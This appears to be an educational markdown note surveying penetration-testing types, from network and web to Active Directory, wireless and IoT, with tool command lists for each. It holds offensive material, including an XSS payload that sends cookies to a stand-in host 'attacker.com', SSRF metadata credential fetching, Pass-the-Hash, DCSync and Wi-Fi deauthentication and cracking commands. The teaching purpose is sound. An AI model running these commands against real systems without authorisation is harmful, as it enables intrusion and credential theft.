




# Types of Penetration Testing

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing — Fundamentals

Penetration testing is not a single monolithic activity — it covers a vast spectrum of target types, knowledge levels, and methodologies. This note maps the entire landscape: from the fundamental Black/White/Grey Box classification to every major target category you'll encounter as a professional pentester.

---

## Table of Contents
1. [Knowledge-Based Classifications](#1-knowledge-based-classifications)
2. [All Target Types — Overview Diagram](#2-all-target-types--overview-diagram)
3. [Network Penetration Testing](#3-network-penetration-testing)
4. [Web Application Penetration Testing](#4-web-application-penetration-testing)
5. [Mobile Penetration Testing](#5-mobile-penetration-testing)
6. [API Penetration Testing](#6-api-penetration-testing)
7. [Cloud Penetration Testing](#7-cloud-penetration-testing)
8. [Social Engineering Testing](#8-social-engineering-testing)
9. [Physical Penetration Testing](#9-physical-penetration-testing)
10. [Wireless Penetration Testing](#10-wireless-penetration-testing)
11. [Active Directory Testing](#11-active-directory-testing)
12. [IoT Penetration Testing](#12-iot-penetration-testing)
13. [Choosing the Right Type](#13-choosing-the-right-type)

---

## 1. Knowledge-Based Classifications

Before testing begins, the client and tester agree on how much information the tester is given. This creates three fundamental test types.

### The Three Box Model



### Detailed Comparison Table

| Dimension | Black Box | Grey Box | White Box |
|-----------|-----------|----------|-----------|
| **Knowledge given** | None | Partial (credentials, architecture overview) | Full (source code, network diagrams, config files) |
| **Simulates** | External attacker (no insider knowledge) | Compromised insider / contractor | Internal developer or trusted admin |
| **Realism** | Highest | Moderate | Lowest |
| **Coverage** | Limited — tester may miss hidden assets | Good — known assets fully tested | Complete — every code path can be checked |
| **Time required** | Long (lots of recon) | Moderate | Short to moderate |
| **False negatives** | Higher — may not find everything | Lower | Lowest |
| **Cost** | Most expensive (time-intensive) | Moderate | Often most cost-effective |
| **Best for** | Simulating opportunistic external attackers | Routine security assessments | Code audits, pre-launch review |
| **Common mistake** | Clients think this = most thorough | — | Tester may develop tunnel vision from docs |

> **Note:** Industry professionals often prefer **grey box** for most engagements — it balances realistic simulation with the completeness that organizations actually need. Pure black box testing frequently wastes budget on reconnaissance that could be done internally.

---

## 2. All Target Types — Overview Diagram

```mermaid
graph TD
    PT[Penetration Testing] --> NET[🌐 Network]
    PT --> WEB[🕸️ Web Application]
    PT --> MOB[📱 Mobile]
    PT --> API[🔌 API]
    PT --> CLD[☁️ Cloud]
    PT --> SE[🎭 Social Engineering]
    PT --> PHY[🏢 Physical]
    PT --> WIR[📡 Wireless]
    PT --> AD[🏛️ Active Directory]
    PT --> IOT[🔧 IoT]

    NET --> NET1[Internal Network]
    NET --> NET2[External Network]
    NET --> NET3[Segmentation Testing]

    WEB --> WEB1[OWASP Top 10]
    WEB --> WEB2[Business Logic]
    WEB --> WEB3[Authentication / Session]

    MOB --> MOB1[iOS]
    MOB --> MOB2[Android]
    MOB --> MOB3[Mobile API Backend]

    CLD --> CLD1[AWS]
    CLD --> CLD2[Azure]
    CLD --> CLD3[GCP]

    SE --> SE1[Phishing]
    SE --> SE2[Vishing]
    SE --> SE3[Pretexting]

    AD --> AD1[Kerberoasting]
    AD --> AD2[BloodHound Enum]
    AD --> AD3[DCSync / Pass-the-Hash]

    style PT fill:#023e8a,color:#fff
    style NET fill:#2d6a4f,color:#fff
    style WEB fill:#2d6a4f,color:#fff
    style MOB fill:#2d6a4f,color:#fff
    style API fill:#2d6a4f,color:#fff
    style CLD fill:#2d6a4f,color:#fff
    style SE fill:#d62828,color:#fff
    style PHY fill:#d62828,color:#fff
    style WIR fill:#2d6a4f,color:#fff
    style AD fill:#7b2d8b,color:#fff
    style IOT fill:#2d6a4f,color:#fff
```



---

## 3. Network Penetration Testing

### What It Tests
Network pentesting evaluates the security of network infrastructure — routers, switches, firewalls, servers, and the communication channels between them.

**Internal network testing:** Tests security once an attacker is inside the perimeter (assumes breach or insider threat).

**External network testing:** Tests what an attacker can find and exploit from the internet — exposed services, firewall rules, VPN configurations.

### Common Vulnerabilities Found

| Vulnerability | Risk | Example |
|--------------|------|---------|
| Open unnecessary ports | High | RDP (3389) exposed to internet |
| Unpatched services | Critical | EternalBlue (MS17-010) on SMB |
| Default credentials | Critical | `admin:admin` on network devices |
| Network segmentation failures | High | Dev network reaching production |
| VLAN hopping | High | Switch misconfig allowing cross-VLAN traffic |
| Weak firewall rules | High | Overly permissive ingress/egress |

### Tools

```bash
# Host Discovery
nmap -sn 192.168.1.0/24                           # Ping sweep
masscan -p1-65535 192.168.1.0/24 --rate=1000      # Fast port scan
rustscan -a 192.168.1.10 -- -sV -sC               # Rust-based fast scan

# Service Enumeration
nmap -sV -sC -p- -T4 192.168.1.10                 # Full service scan
nmap --script=smb-vuln* 192.168.1.10              # SMB vulnerability scripts
nmap --script=ftp-anon 192.168.1.10               # Check FTP anonymous login

# Protocol-Specific Testing
enum4linux -a 192.168.1.10                        # SMB/Samba enumeration
smbclient -L //192.168.1.10 -N                    # SMB share listing
snmpwalk -v 2c -c public 192.168.1.10             # SNMP enumeration
```

### Real-World Relevance
Network pentesting is the **foundation of all other testing** — understanding network topology, firewall rules, and exposed services is prerequisite to everything else.

---

## 4. Web Application Penetration Testing

### What It Tests
Web app pentesting evaluates web applications for vulnerabilities that could allow attackers to steal data, compromise accounts, execute code, or escalate privileges.

**Governed by:** OWASP Testing Guide (WSTG), OWASP Top 10

### OWASP Top 10 (2021)

| Rank | Category | Example |
|------|----------|---------|
| A01 | Broken Access Control | IDOR — accessing another user's records |
| A02 | Cryptographic Failures | Sensitive data in plaintext, weak TLS |
| A03 | Injection | SQL injection, command injection |
| A04 | Insecure Design | Missing rate limiting on login |
| A05 | Security Misconfiguration | Default credentials, exposed admin panels |
| A06 | Vulnerable Components | Outdated jQuery with known XSS |
| A07 | Auth & Session Failures | Weak passwords, session fixation |
| A08 | Software Integrity Failures | Unverified CDN scripts |
| A09 | Logging Failures | No audit log of sensitive actions |
| A10 | SSRF | Fetching internal metadata endpoints |

### Tools

```bash
# Scanning & Enumeration
nikto -h https://target.com -ssl -o nikto-report.txt
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -u https://target.com/FUZZ

# SQL Injection
sqlmap -u "https://target.com/item?id=1" --dbs --batch --random-agent
sqlmap -u "https://target.com/login" --data="user=admin&pass=test" --level=5 --risk=3

# Burp Suite (intercepting proxy — GUI tool)
# Key modules: Proxy, Repeater, Intruder, Scanner, Decoder

# XSS Testing
# Payload: <script>document.location='https://attacker.com/steal?c='+document.cookie</script>
# Payload: ">

# Directory Traversal
curl "https://target.com/file?name=../../../../etc/passwd"
```

### Real-World Relevance
Web applications are the **#1 attack vector** for external breaches. Every organization with a public-facing web app needs web application pentesting.

---

## 5. Mobile Penetration Testing

### What It Tests
Mobile pentesting evaluates the security of iOS and Android applications, their local storage, network communications, and backend APIs.

### Testing Dimensions

```
Mobile App Attack Surface:
  ├── Client-side
  │     ├── Local storage (SQLite, SharedPreferences, NSUserDefaults)
  │     ├── Hardcoded secrets (API keys, credentials in APK/IPA)
  │     ├── Insecure data transmission (HTTP, weak TLS)
  │     └── Binary protections (obfuscation, anti-tampering, jailbreak detection)
  ├── Network-side
  │     ├── Certificate pinning bypass
  │     ├── MitM susceptibility
  │     └── API endpoint enumeration
  └── Backend-side (same as API/web testing)
```

### Android Testing

```bash
# Extract APK from device
adb shell pm list packages | grep targetapp
adb shell pm path com.target.app
adb pull /data/app/com.target.app.apk ./

# Decompile APK
apktool d target.apk -o target_decompiled/
jadx -d target_src/ target.apk            # Java decompilation

# Check for hardcoded secrets
grep -r "password\|apikey\|secret\|token" target_decompiled/ -i

# Dynamic analysis with Frida
frida -U -l bypass_ssl.js com.target.app  # SSL pinning bypass
frida -U -f com.target.app --no-pause -l hook_crypto.js

# MobSF (automated static + dynamic analysis)
# docker run -it --rm -p 8000:8000 opensecurity/mobile-security-framework-mobsf:latest
```

### iOS Testing

```bash
# Requires jailbroken device or Corellium
# Extract IPA
# Analyze with objection
objection -g "com.target.App" explore

# Common commands in objection:
# ios sslpinning disable
# ios keychain dump
# ios nsuserdefaults get
# ios pasteboard monitor
```

### Tools Reference

| Tool | Platform | Purpose |
|------|----------|---------|
| MobSF | Both | Automated static/dynamic analysis |
| apktool | Android | APK decompilation |
| jadx | Android | Java/Kotlin decompilation |
| Frida | Both | Dynamic instrumentation |
| objection | Both | Frida-based runtime exploration |
| Burp Suite | Both | API traffic interception |
| drozer | Android | App attack surface analysis |
| idb | iOS | iOS data analysis |

### Real-World Relevance
Banking apps, healthcare apps, and enterprise MDM solutions handle extremely sensitive data on mobile devices. Mobile pentests regularly find hardcoded AWS keys, insecure storage of PII, and bypassable authentication.

---

## 6. API Penetration Testing

### What It Tests
API pentesting targets REST, GraphQL, SOAP, and gRPC APIs — the communication backbone of modern applications.

**OWASP API Security Top 10 (2023):**

| Rank | Risk | Example |
|------|------|---------|
| API1 | Broken Object Level Authorization | GET /api/users/1337 returns another user's data |
| API2 | Broken Authentication | Weak JWT, missing expiry |
| API3 | Broken Object Property Level Auth | Mass assignment — update is_admin field |
| API4 | Unrestricted Resource Consumption | No rate limiting, upload size limit |
| API5 | Broken Function Level Authorization | Regular user calling admin endpoint |
| API6 | Unrestricted Access to Sensitive Flows | Unlimited password reset attempts |
| API7 | Server-Side Request Forgery | API fetches URL from user input |
| API8 | Security Misconfiguration | CORS wildcard, verbose error messages |
| API9 | Improper Inventory Management | Undocumented v1 API still active |
| API10 | Unsafe API Consumption | Trusting third-party API data blindly |

### Tools

```bash
# API Enumeration
ffuf -w wordlist.txt -u https://api.target.com/FUZZ -mc 200,201,204,301,302

# Postman / Insomnia — GUI tools for manual API testing

# GraphQL introspection
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name } } }"}'

# BOLA/IDOR testing
# Change ID in: GET /api/v1/orders/12345 → /api/v1/orders/12346
curl -H "Authorization: Bearer YOUR_TOKEN" https://api.target.com/v1/orders/99999

# JWT testing
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9... -T   # tamper
jwt_tool TOKEN -C -d /usr/share/wordlists/rockyou.txt   # crack secret
```

---

## 7. Cloud Penetration Testing

### What It Tests
Cloud pentesting examines misconfigurations, excessive permissions, and vulnerabilities in cloud-hosted infrastructure and services.

> **Warning:** Each cloud provider has its own pentest policy. AWS, Azure, and GCP all have specific rules — exceeding them can get your account banned or result in legal action. Always check the current policy.

### Cloud-Specific Threats



### AWS Testing

```bash
# Enumerate S3 buckets
aws s3 ls s3://target-bucket --no-sign-request
aws s3 ls --no-sign-request               # List public buckets

# Check IAM permissions (if credentials obtained)
aws iam get-user
aws iam list-attached-user-policies --user-name TARGET
aws sts get-caller-identity

# ScoutSuite — cloud security auditing
scout aws --report-dir scout-report/

# Pacu — AWS exploitation framework
python3 pacu.py
# set_keys, run iam__bruteforce_permissions, run s3__bucket_finder

# SSRF to metadata
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/hostname
```

### Azure Testing

```bash
# AAD enumeration
az login
az account list
az ad user list --output table

# MicroBurst — Azure security assessment
Import-Module MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base "target"
Get-AzurePasswords

# ROADtools — Azure AD exploration
roadrecon gather -u user@target.com -p password
roadrecon gui
```

### GCP Testing

```bash
# Enumerate GCP resources
gcloud projects list
gcloud compute instances list
gcloud storage buckets list --project=TARGET_PROJECT

# Check service account permissions
gcloud iam service-accounts list
gcloud projects get-iam-policy TARGET_PROJECT

# GCPBucketBrute
python3 GCPBucketBrute.py --keyword "target" --out buckets.txt
```

### Provider Pentest Policies

| Provider | Policy URL | Key Restriction |
|----------|-----------|----------------|
| AWS | aws.amazon.com/security/penetration-testing | 8 permitted services; no DDoS, no DNS hijacking |
| Azure | microsoft.com/en-us/msrc/pentest-rules | Penetration Testing Rules of Engagement required |
| GCP | cloud.google.com/terms/aup | Acceptable Use Policy; notify Google for large-scale tests |

---

## 8. Social Engineering Testing

### What It Tests
Social engineering tests the human element — how susceptible employees are to manipulation, deception, and psychological exploitation.

### Types of Social Engineering Tests

| Type | Description | Common Tools |
|------|-------------|-------------|
| **Phishing** | Email-based deception | Gophish, SET, King Phisher |
| **Spear Phishing** | Targeted phishing with personal detail | Gophish + custom templates |
| **Vishing** | Voice phishing (phone calls) | None — manual |
| **Smishing** | SMS phishing | SET |
| **Pretexting** | Creating a fabricated scenario | Scripted scenarios |
| **Baiting** | Leaving infected USB drives | Physical USB payloads |
| **Tailgating** | Physical access via social manipulation | None — physical technique |

```bash
# Gophish — phishing simulation platform
# Start server
./gophish

# Social Engineering Toolkit (SET)
setoolkit
# 1. Social-Engineering Attacks
# 2. Website Attack Vectors
# 3. Credential Harvester Attack Method
```

> **Warning:** Phishing tests require explicit written HR authorization, clearly defining which employees may be targeted and what data can be collected. Phishing tests that aren't properly scoped have caused significant employee distress and legal liability.

---

## 9. Physical Penetration Testing

### What It Tests
Physical pentesting evaluates whether an attacker could gain unauthorized physical access to facilities, hardware, or sensitive areas.

### Physical Attack Surface

```
Physical Entry Points:
  ├── Badge/access control bypass (tailgating, cloning HID cards)
  ├── Lock picking and bump keys
  ├── Dumpster diving (sensitive documents, media)
  ├── Rogue device placement (network implants, keyloggers)
  └── Secure area access (server rooms, data centers)
```

### Tools

```bash
# HID card cloning
proxmark3 hf search             # Identify card type
proxmark3 hf mf clone           # Clone Mifare card

# Network implants (rogue devices)
# LAN Turtle — covert network tap
# Bash Bunny — HID attack device
# Rubber Ducky — USB HID injection

# Lock picking tools (physical — no commands)
# Pick set, tension wrench, bump key

# Document reconnaissance
# Camera for evidence of exposed sensitive info
```

### Real-World Scenario
A typical physical pentest engagement might involve:
1. Tailgating an employee through the main entrance
2. Locating an unlocked conference room with ethernet port
3. Plugging in a LAN Turtle (network implant)
4. Discovering accessible USB ports on workstations
5. Attempting to access server room (badge bypass or social engineering)

---

## 10. Wireless Penetration Testing

### What It Tests
Wireless pentesting evaluates the security of Wi-Fi networks, Bluetooth devices, and other RF communications.

### Wireless Attack Categories

| Attack | Protocol | Description |
|--------|----------|-------------|
| WPA2 Handshake Capture | 802.11 | Capture 4-way handshake, offline crack |
| PMKID Attack | 802.11 | No client needed, attack RSN IE |
| Evil Twin / Rogue AP | 802.11 | Fake AP with same SSID to capture creds |
| Deauthentication | 802.11 | Force client disconnect to capture handshake |
| WPS PIN Brute Force | 802.11 | Pixie Dust attack on WPS |
| Bluetooth MITM | Bluetooth | BLE/Classic pairing attacks |

```bash
# Set wireless adapter to monitor mode
airmon-ng start wlan0
# Results in wlan0mon

# Capture WPA2 handshake
airodump-ng wlan0mon                                  # List networks
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Force deauth (to capture handshake)
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack captured handshake
aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt
hashcat -m 22000 capture.hc22000 rockyou.txt         # GPU cracking

# PMKID Attack (no client needed)
hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool capture.pcapng -o hashfile.22000
hashcat -m 22000 hashfile.22000 rockyou.txt
```

---

## 11. Active Directory Testing

### What It Tests
AD pentesting is one of the most impactful types — most enterprise breaches end with domain compromise. Tests focus on misconfigurations in Windows domain environments.

### Key AD Attack Categories



```bash
# Enumeration with BloodHound
# Collect data with SharpHound (on Windows target)
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip

# Start BloodHound
neo4j start
bloodhound &
# Import ZIP → Find Paths to Domain Admin

# Kerberoasting
impacket-GetUserSPNs -dc-ip 192.168.1.10 DOMAIN/user:pass -request
hashcat -m 13100 kerberoast_hashes.txt rockyou.txt

# AS-REP Roasting (no preauth accounts)
impacket-GetNPUsers DOMAIN/ -usersfile users.txt -format hashcat -no-pass
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# Pass-the-Hash
impacket-psexec DOMAIN/Administrator@192.168.1.10 -hashes :NTHASH
evil-winrm -i 192.168.1.10 -u Administrator -H NTHASH

# DCSync (if domain admin privileges obtained)
impacket-secretsdump DOMAIN/Administrator@dc.domain.local
```

### Real-World Relevance
Active Directory is in 95%+ of enterprise environments. A domain compromise gives attackers access to every system joined to the domain — email, file shares, databases, everything.

---

## 12. IoT Penetration Testing

### What It Tests
IoT pentesting targets embedded devices: smart cameras, industrial control systems (ICS/SCADA), medical devices, smart building controls, and consumer electronics.

### IoT Attack Surface

```
IoT Attack Dimensions:
  ├── Firmware
  │     ├── Extraction (JTAG, UART, chip-off)
  │     ├── Analysis (binwalk, strings, Ghidra)
  │     └── Hardcoded credentials, keys, backdoors
  ├── Network Services
  │     ├── Telnet, SSH, HTTP admin interface
  │     └── UPnP, mDNS, CoAP exposure
  ├── Mobile App (companion app)
  │     └── Same as mobile testing
  ├── Cloud Backend
  │     └── Same as API/cloud testing
  └── Hardware
        ├── Debug interfaces (UART, JTAG, SPI, I2C)
        └── PCB analysis, chip identification
```

```bash
# Firmware extraction with binwalk
binwalk -e firmware.bin                    # Automatic extraction
binwalk -Me firmware.bin                   # Recursive extraction

# Search for credentials in firmware
grep -r "password\|passwd\|admin" _firmware.bin.extracted/ -i

# Network service analysis
nmap -sV -p- --script=iot* 192.168.1.200
shodan search 'product:"Hikvision" country:US'  # Find internet-exposed cameras

# UART access (physical)
# Connect UART-USB adapter to TX/RX/GND pins on device PCB
# Identify baud rate
minicom -s     # Configure serial terminal
# Common baud: 115200, 9600, 57600
```

---

## 13. Choosing the Right Type



### Comprehensive Engagement Selection Table

| Organization Type | Recommended Test Types | Priority Order |
|------------------|----------------------|----------------|
| E-commerce / SaaS | Web App, API, Network External | Web → API → Network |
| Enterprise / Corporate | Network Internal, AD, Social Engineering | AD → Network → SE |
| Healthcare | Web App, Network, Physical, IoT | Web → IoT → Network |
| Financial Services | Web App, API, Network, Social Engineering | Web → API → SE |
| Government | Network, Physical, Social Engineering, AD | Network → Physical → AD |
| Startup (pre-launch) | Web App, API | Web → API |
| Manufacturing / ICS | IoT, Network, Physical | IoT → Physical → Network |

---

> **Note:** Most professional engagements combine multiple types. A comprehensive "full-scope" engagement might include: external network, web application, social engineering, and assume-breach (internal AD) testing — all within a single contract.

> **Warning:** Always match the test type to the actual threat model. Testing web applications when the real risk is physical access to a server room wastes budget and misses the actual threat.
